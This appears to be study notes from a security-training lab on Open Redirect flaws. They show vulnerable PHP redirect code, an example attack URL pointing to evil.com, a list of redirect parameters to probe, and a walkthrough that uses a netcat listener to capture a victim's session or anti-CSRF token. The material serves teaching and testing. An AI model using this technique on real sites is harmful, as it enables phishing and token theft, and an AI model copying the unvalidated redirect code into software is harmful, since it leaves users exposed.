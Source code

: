 # Open Redirect
Occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality.
- In such cases, all the attacker has to do is specify a website under their control in a redirection URL of a legitimate website and pass this URL to the victim.
- This is possible when the legitimate application's redirection functionality does not perform any kind of validation regarding the websites to which the redirection points.

Let us take a look at some code.
```php
$red = $_GET['url'];
header("Location: " . $red);
```
```php
$red = $_GET['url'];
```
A variable called _red_ is defined that gets its value from a parameter called _url_. 
- _$_GET_ is a PHP superglobal variable that enables us to access the _url_ parameter value.

```php
header("Location: " . $red);
```
- The Location response header indicates the URL to redirect a page to. The line of code above sets the location to the value of _red_, without any validation. We are facing an Open Redirect vulnerability here.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`
- ?url=
- ?link=
- ?redirect=
- ?redirecturl=
- ?redirect_uri=
- ?return=
- ?return_to=
- ?returnurl=
- ?go=
- ?goto=
- ?exit=
- ?exitpage=
- ?fromurl=
- ?fromuri=
- ?redirect_to=
- ?next=
- ?newurl=
- ?redir=
## Open Redirect Example
You come across a URL of the below format:
`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

f you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.
![Browser window showing 'Thanks for completing the form!' with network request details.](https://academy.hackthebox.com/storage/modules/153/72.png)

Let us check if the application performs the redirection without any kind of validation (Open Redirect).

First, let us set up a Netcat listener.
```bash
nc -lvnp 1337
```

Copy the entire URL where you landed after navigating to `oredirect.htb.net`. It should be a URL of the below format:
`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN ASSIGNED BY THE APP>`

Then, edit this URL as follows.
`http://oredirect.htb.net/?redirect_uri=http://IP-ADDRESS:PORT&token=<RANDOM TOKEN ASSIGNED BY THE APP>`
- `<RANDOM TOKEN ASSIGNED BY THE APP>` <-- Replace this with the token that is assigned automatically by the application.

Open a `New Private Window` and navigate to the link above to simulate the victim.

When the victim enters their email, we notice a connection being made to our listener. The application is indeed vulnerable to Open Redirect. Not only that, but the captured request also includes the token!

![Terminal showing HTTP POST request with email and token details.](https://academy.hackthebox.com/storage/modules/153/71.png)
# NOTES!
You would still be able to go through with the attack whether it was `GET` or `POST` based.